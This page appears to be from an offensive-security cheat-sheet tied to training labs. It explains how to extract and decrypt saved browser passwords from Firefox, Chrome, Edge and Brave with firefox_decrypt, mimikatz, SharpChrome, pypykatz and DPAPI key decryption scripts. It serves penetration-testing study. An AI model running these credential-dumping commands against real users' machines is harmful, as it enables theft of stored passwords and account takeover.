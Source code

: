 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![glitch](../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(2.1k ⭐)</small>. To install it on Kali:

```ps
$ pipx install git+https://github.com/unode/firefox_decrypt.git
$ firefox_decrypt -h
$ firefox_decrypt /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ tar -cvf firefox.tgz .mozilla
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```

#### Extract Chrome Dictionaries

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Users may have added some sensitive information inside their personal browser dictionary <small>(email/username/...)</small>.

```ps
PS> ls "$Env:localappdata/Google/Chrome/User Data/Default/Custom Dictionary.txt"
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

* **Decrypt on Windows** using [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(1.0k ⭐)</small>

* **Decrypt on Windows** [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md)

For the current user, you can use:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

* **Decrypt on Windows** using [SharpChrome](https://github.com/GhostPack/SharpDPAPI) <small>(1.2k ⭐)</small> | [compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```shell!
PS> .\SharpChrome.exe logins /unprotect
```

* **Decrypt on Linux** using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md)

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.1k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.1k ⭐)</small> to decrypt and dump passwords.

```shell!
$ base64 -d > key.enc <<< "<encrypted secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S "<secret_key_here>" -P "./Default/Login Data"
```
</div><div>
</div></div>